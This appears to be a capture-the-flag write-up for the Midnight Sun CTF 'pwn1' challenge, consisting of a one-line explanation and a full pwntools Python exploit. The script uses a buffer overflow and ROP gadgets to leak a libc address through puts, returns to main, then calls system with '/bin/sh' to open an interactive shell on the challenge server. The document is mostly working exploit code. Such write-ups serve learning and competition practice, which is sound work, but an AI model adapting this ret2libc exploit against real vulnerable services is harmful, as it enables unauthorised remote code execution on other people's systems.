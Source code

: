 # pwn1(70pts) #

![TASK](https://imgur.com/4fbyzFx.png)

It was a ret2libc task , but we had firstly to leak the libc base address using BOF (i leaked it through printf address) than we will return to main and perform our ret2 System :D
here is my exploit, if you have any questions you can contact me on twitter @BelkahlaAhmed1 

```python

from pwn import *
p=remote("pwn1-01.play.midnightsunctf.se",10001)
#p=process("./pwn1")
OFFSET=cyclic(72)
POP_RDI_RET=p64(0x0000000000400783)
PUTS=p64(0x0000000000400550)
LEAK=p64(0x602020)
MAIN=p64(0x400698)
payload=OFFSET+POP_RDI_RET+LEAK+PUTS+MAIN
log.info("Payload Crafted")
p.recvuntil("buffer:")
log.info("Sending payload")
#raw_input("attach")
p.sendline(payload) 
data=p.recvline().strip()
leak=u64(data.ljust(8,"\x00"))
BASE_LIBC=leak-0x64e80       # local 0x54a20 
log.info("leaked libc base: "+hex(BASE_LIBC))
p.recvuntil("buffer:")
#BINSH=p64(BASELIBC+0x183cee)
#SYSTEM=p64(BASELIBC+0x46ed0)
RET=p64(0x0000000000400536)  
SYSTEM=p64(BASE_LIBC+0x4f440)
BINSH=p64(BASE_LIBC+0x1b3e9a)
payload=OFFSET+RET+POP_RDI_RET+BINSH+SYSTEM
p.sendline(payload)
p.interactive()
```
